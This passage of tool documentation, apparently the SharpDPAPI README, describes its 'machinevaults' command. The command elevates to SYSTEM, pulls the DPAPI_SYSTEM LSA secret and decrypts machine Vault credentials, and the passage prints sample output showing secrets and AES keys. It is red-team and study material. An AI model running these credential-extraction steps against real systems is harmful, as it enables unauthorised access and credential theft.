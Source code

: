 
#### machinevaults

The **machinevaults** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Vaults.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

    C:\Temp>SharpDPAPI.exe machinevaults

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Machine DPAPI Vault Triage

    [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
    [*] RevertToSelf()

    [*] Secret  : DPAPI_SYSTEM
    [*]    full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
    [*]    m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

    [*] SYSTEM master key cache:

    {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
    ...(snip)...


    [*] Triaging SYSTEM Vaults


    [*] Triaging Vault folder: C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

      VaultID            : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
      Name               : Web Credentials
        guidMasterKey    : {0bd732d9-c396-4f9a-a69a-508632c05235}
        size             : 324
        flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
        algHash/algCrypt : 32782/26128
        description      :
        aes128 key       : 74CE3D7BCC4D0C4734931041F6D00D09
        aes256 key       : B497F57730A2F29C3533B76BD6B33EEA231C1F51ED933E0CA1210B9E3A16D081

    ...(snip)...


#### machinecerts

The **machinecerts** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine system encrypted DPAPI private certificate keys.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

